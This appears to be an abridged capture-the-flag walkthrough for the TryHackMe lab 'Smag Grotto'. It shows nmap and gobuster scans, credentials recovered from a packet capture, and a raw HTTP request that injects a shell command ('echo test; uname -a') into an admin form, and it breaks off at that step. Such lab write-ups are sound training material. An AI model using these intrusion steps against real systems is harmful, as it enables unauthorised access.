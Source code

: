 # [Smag Grotto](https://tryhackme.com/room/smaggrotto)

## Follow the yellow brick road.

# Smag Grotto

## Deploy the machine and get root privileges.

### What is the user flag?

1. ...

```bash
nmap 10.10.194.142
```

[SCREEN01]

2. ...
   - We have discovered `/mail/` endpoint

```bash
gobuster dir -u http://10.10.194.142 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt
```

[SCREEN02]

3. Download `dHJhY2Uy.pcap` from `http://10.10.194.142/mail/` ...

4. Open the file ...
   - `development.smag.thm`
   - `helpdesk:cH4nG3M3_n0w`

[SCREEN03]

```bash
echo '10.10.194.142 development.smag.thm' >> /etc/hosts
```

5. loging to `http://development.smag.thm/login.php` redirects to `http://development.smag.thm/admin.php` ...

6. ...

```
POST /admin.php HTTP/1.1
Host: development.smag.thm
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Content-Length: 37
Cookie: PHPSESSID=kp8l702c7iptp3paktkq9mfb34

command=echo+test%3B+uname+-a&submit=
```
